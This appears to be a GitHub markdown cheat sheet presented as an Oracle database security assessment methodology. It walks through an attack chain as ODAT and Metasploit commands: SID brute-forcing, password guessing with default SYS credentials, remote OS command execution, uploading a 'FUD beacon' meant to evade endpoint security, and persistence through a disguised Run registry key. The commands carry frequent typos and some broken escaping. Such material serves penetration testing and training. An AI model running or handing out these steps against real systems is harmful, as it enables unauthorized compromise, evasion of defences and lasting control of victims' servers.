 # Oracle infrastructure Security Assessment Methodology

###  First thing to do is to Identify SIDs
```
pyton3 odat sidguesser -s 192.168.3.229 -p 7002

# Metasploit Module
msf5  > use auxiliary/admin/oracle/sid_brute
msf5 auxiliary(admin/oracle/sid_brute) > set rhost 192.168.3.229
rhost => 192.168.3.229
msf5 auxiliary(admin/oracle/sid_brute) > set rport 7002
rport => 7002
msf5 auxiliary(admin/oracle/sid_brute) > run

[*] 192.168.3.229:7002 - Starting brute force on 192.168.3.229, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 192.168.3.229:7002 - 192.168.3.229:7002 Found SID 'XE
```
### Upon Identifing The SID Next thing to do is to bruteforce 
```
python3 odat.py passwordguesser -s 192.168.3.229 -p 7002 -d XE --accounts-file default_userpass.txt
```

### Basic OS Command Execution
Upon Identifying usable Credential, next step is to test an OS Command whether The credentail woork.
```
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c ipconfig && systeminfo\\ > C:\output" -vvv
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c ipconfig && systeminfo\\ > C:\output" -vvv
```
### Execution
* dbmsadvisor Module allow us to upload 
* externaltable Module allow us to execute OS command
```
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing Hello.txt  /root/Desktop/hello.txt
pyton3 odat.py externaltable -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --exec "dir C:/Windows/tracing" hello.txt --sysdba

#Target box is being used Window 10 which may enable one of Endpoint Solution, It is better to upload a FUD beacon to avoid being cought by Endpoint Security.
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing\\beacon.exe  /root/Desktop/beacon.exe
pyton3 odat.py externaltable -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --exec "dir C:/Windows/tracing" beacon.exe --sysdba

```


### Persistence
```
pyton3 odat dbmsadvisor -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --putFile C:\\Windows\\\tracing\\beacon.exe  /root/Desktop/beacon.exe
pyton3 odat.py dbmsscheduler -s 192.168.3.229 -p 7002 -d XE -U SYS -P CHANGE_ON_INSTALL --sysdba --exec "C:\windows\system32\cmd.exe /c reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v IT_admin_service /t REG_SZ /d "C:\Windows\tracing\beacon.exe" > C:\output" -vvv

```
